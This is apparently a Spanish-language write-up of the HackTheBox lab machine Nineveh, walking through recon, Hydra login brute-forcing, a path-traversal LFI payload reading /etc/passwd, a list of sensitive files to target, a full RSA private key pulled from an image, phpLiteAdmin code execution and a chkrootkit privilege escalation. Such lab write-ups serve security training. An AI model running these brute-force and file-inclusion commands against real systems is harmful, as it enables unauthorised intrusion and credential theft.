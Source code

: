 ------
- Tags: #hydra #lfi #steganography #php-lite-admin #knock #port-knocking #chkrootkit 
- ------------------
## Técnicas utilizadas
- Abusing http forms with Hydra - Login Brute Force  
- Local File Inclusion (LFI)  
- Steganography - id_rsa hidden in image  
- Abusing phpLiteAdmin v1.9 (Remote Code Execution)  
- Abusing Knockd - Port Knocking  
- Chkrootkit 0.49 - Local Privilege Escalation  
- Using Wrappers - LFI [EXTRA]
## Procedimiento

![[Pasted image 20230721151323.png]]

-------
#### Reconocimiento
Si lanzamos un **nmap** sobre la maquina podemos ver los siguientes puertos abiertos:
```ruby
# nmap -sCV -p80,443 10.10.10.43 -oN Ports
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-21 23:20 MST
Nmap scan report for 10.10.10.43
Host is up (0.13s latency).

PORT    STATE SERVICE  VERSION
80/tcp  open  http     Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.18 (Ubuntu)
443/tcp open  ssl/http Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
| tls-alpn: 
|_  http/1.1
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=nineveh.htb/organizationName=HackTheBox Ltd/stateOrProvinceName=Athens/countryName=GR
| Not valid before: 2017-07-01T15:03:30
|_Not valid after:  2018-07-01T15:03:30
|_http-title: Site doesn't have a title (text/html).

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 21.82 seconds
```

Un escaneo con **WhatWeb** sobre el aplicativo web nos muestra las siguientes tecnologías corriendo por detras:
```ruby
# whatweb 10.10.10.43 && whatweb 10.10.10.43:443
http://10.10.10.43 [200 OK] Apache[2.4.18], Country[RESERVED][ZZ], HTTPServer[Ubuntu Linux][Apache/2.4.18 (Ubuntu)], IP[10.10.10.43]
http://10.10.10.43:443 [400 Bad Request] Apache[2.4.18], Country[RESERVED][ZZ], HTTPServer[Ubuntu Linux][Apache/2.4.18 (Ubuntu)], IP[10.10.10.43], Title[400 Bad Request]
```

----------
#### Abusing http forms with Hydra - Login Brute Force  
Visitando la pagina web, nos percatamos de que no hay nada interesante. Fuzzeando por directorios con **Wfuzz** llegamos a dar con una ruta de nombre **Department**:
![[Pasted image 20230721232315.png]]

Al ingresar a la ruta, nos encontramos con un **Login** el cual parece ser vulnerable a **User Enumeration** a través de mensajes de error. Encontramos que el usuario **Admin** existe dentro del aplicativo web, asi que como no tenemos ninguna otra via, intentaremos un ataque de fuerza bruta sobre el **Login** con **Hydra**:
```
# hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.10.10 http-post-form "/departaments/login.php:username=admin&password=^PASS^:Invalid Password" -t 50
```

Y no encuentra la siguiente contraseña para el usuario **Admin**:
![[Pasted image 20230721232658.png]]

---------------
#### Local File Inclusion (LFI)  
La **URL** tiene un aspecto peculiar, parece utilizar el parametro **Notes** para incluir archivos de la maquina. Si intentamos un **Path Transveral** hacia alguno de las rutas tipicas contra las que se suele atentar en **LFI** podemos llegar a listar el  **/etc/passwd** utilizando algunas tecnicas de evasión, dado que toma como base el directorio **ninevehNotes**:
```
notes=/ninevehNotes/../../../../../../etc/passwd
```

**Rutas intetesantes a las cuales apuntar**:
```
/proc/net/fib_trie     #Podemos ver si estamos en un contenedor
/proc/net/tcp          #Podemos listar los puertos que estan abiertos internamente
/proc/self/environ     #Listamos las variables de entorno
/etc/os-release        #Listamos el sistema operativo en uso
/proc/schedstat        #proporciona estadísticas de planificación del kernel
/etc/knockd.conf       #Lista la configuración de Knock
```

----------
#### Steganography - id_rsa hidden in image 
Tenemos aún un servicio web sin enumerar, vamos a **Fuzzear** por directorios ahora en el servicio **HTTPS** para ver que encontramos:
![[Pasted image 20230722000109.png]]

Encontramos dos potenciales directorios, por un lado tenemos **db** y por otro **secure_notes**. El primero es un **Login** y el segundo basicamente es una imagen, la cual, problemente si aplicamos tecnicas de Steganografia podramos llegar a conseguir algo, dado que se encuentra un un directorio que insita a rebuscar. Si aplicamos un **strings** sobre la imagen llegamos a ver una **id_rsa**:
```
# string nineveh.png
[...]
-----BEGIN RSA PRIVATE KEY-----
MIIEowIBAAKCAQEAri9EUD7bwqbmEsEpIeTr2KGP/wk8YAR0Z4mmvHNJ3UfsAhpI
H9/Bz1abFbrt16vH6/jd8m0urg/Em7d/FJncpPiIH81JbJ0pyTBvIAGNK7PhaQXU
PdT9y0xEEH0apbJkuknP4FH5Zrq0nhoDTa2WxXDcSS1ndt/M8r+eTHx1bVznlBG5
FQq1/wmB65c8bds5tETlacr/15Ofv1A2j+vIdggxNgm8A34xZiP/WV7+7mhgvcnI
3oqwvxCI+VGhQZhoV9Pdj4+D4l023Ub9KyGm40tinCXePsMdY4KOLTR/z+oj4sQT
X+/1/xcl61LADcYk0Sw42bOb+yBEyc1TTq1NEQIDAQABAoIBAFvDbvvPgbr0bjTn
KiI/FbjUtKWpWfNDpYd+TybsnbdD0qPw8JpKKTJv79fs2KxMRVCdlV/IAVWV3QAk
FYDm5gTLIfuPDOV5jq/9Ii38Y0DozRGlDoFcmi/mB92f6s/sQYCarjcBOKDUL58z
GRZtIwb1RDgRAXbwxGoGZQDqeHqaHciGFOugKQJmupo5hXOkfMg/G+Ic0Ij45uoR
JZecF3lx0kx0Ay85DcBkoYRiyn+nNgr/APJBXe9Ibkq4j0lj29V5dT/HSoF17VWo
9odiTBWwwzPVv0i/JEGc6sXUD0mXevoQIA9SkZ2OJXO8JoaQcRz628dOdukG6Utu
Bato3bkCgYEA5w2Hfp2Ayol24bDejSDj1Rjk6REn5D8TuELQ0cffPujZ4szXW5Kb
ujOUscFgZf2P+70UnaceCCAPNYmsaSVSCM0KCJQt5klY2DLWNUaCU3OEpREIWkyl
1tXMOZ/T5fV8RQAZrj1BMxl+/UiV0IIbgF07sPqSA/uNXwx2cLCkhucCgYEAwP3b
vCMuW7qAc9K1Amz3+6dfa9bngtMjpr+wb+IP5UKMuh1mwcHWKjFIF8zI8CY0Iakx
DdhOa4x+0MQEtKXtgaADuHh+NGCltTLLckfEAMNGQHfBgWgBRS8EjXJ4e55hFV89
P+6+1FXXA1r/Dt/zIYN3Vtgo28mNNyK7rCr/pUcCgYEAgHMDCp7hRLfbQWkksGzC
fGuUhwWkmb1/ZwauNJHbSIwG5ZFfgGcm8ANQ/Ok2gDzQ2PCrD2Iizf2UtvzMvr+i
tYXXuCE4yzenjrnkYEXMmjw0V9f6PskxwRemq7pxAPzSk0GVBUrEfnYEJSc/MmXC
iEBMuPz0RAaK93ZkOg3Zya0CgYBYbPhdP5FiHhX0+7pMHjmRaKLj+lehLbTMFlB1
MxMtbEymigonBPVn56Ssovv+bMK+GZOMUGu+A2WnqeiuDMjB99s8jpjkztOeLmPh
PNilsNNjfnt/G3RZiq1/Uc+6dFrvO/AIdw+goqQduXfcDOiNlnr7o5c0/Shi9tse
i6UOyQKBgCgvck5Z1iLrY1qO5iZ3uVr4pqXHyG8ThrsTffkSVrBKHTmsXgtRhHoc
il6RYzQV/2ULgUBfAwdZDNtGxbu5oIUB938TCaLsHFDK6mSTbvB/DywYYScAWwF7
fw4LVXdQMjNJC3sn3JaqY1zJkE4jXlZeNQvCx4ZadtdJD9iO+EUG
-----END RSA PRIVATE KEY-----
[...]
```

Ahora, gracias a que hemos golpeado los puertos con **knock** que encontramos en el **knockd.conf** podemos conectarnos a través de **SSH**:
```
# ssh user@10.10.14.17 -i id_rsa
```

----------
#### Abusing phpLiteAdmin v1.9 (Remote Code Execution)  
Otra forma de ganar acceso a la maquina es a través de explotar una vulnerabilidad en el directorio **db** que encontramos en el apartado anterior, el cual contiene un **PhpLiteAdmin**. Con **Hydra**, volvemos a intentar un ataque de fuerza bruta sobre el **Login**:
```
# hydra -l none -P /usr/share/wordlist/rockyou.txt 10.10.10.43 https-post-form "/db/index.php:password=^PASS^&remember=yes&login=Log+In&proc_login=true:Incorrect password." -t 50
```

Y obtenemos la siguiente credencial:
![[Pasted image 20230721235714.png]]

Listando por vulnerabilidades para la versión actualmente en uso de **PhpLiteAdmin** encontramos una de tipo **Remote Code Execution** la cual explica que necesitamos crear primero una base de datos con extensión **php**. Luego nos cuenta que podemos crear una tabla, a la cual le podemos insertar un campo con la estructura tipica de un **.php**, como por ejemplo, una **WebShell**.

------------
#### Chkrootkit 0.49 - Local Privilege Escalation  
Dentro de la maquina, podemos subir el **PsPy** para analizar los comandos que se estan ejecutando en intervalos regulares de tiempo:
![[Pasted image 20230722000015.png]]

Encontramos un **chkrootkit**, el cual si buscamos por vulnerabilidades con **SearchSploit** encontramos una de tipo **Privilage Escalation**:
![[Pasted image 20230721235955.png]]

Nos cuenta que en **/tmp** se ejecuta un archivo de nombre **update** cada intervalo de tiempo. Podemos crear un archivo con dicho nombre e indicarle que se le asigne un privilegio **SUID** a la **Bash**:
![[Pasted image 20230721235943.png]]


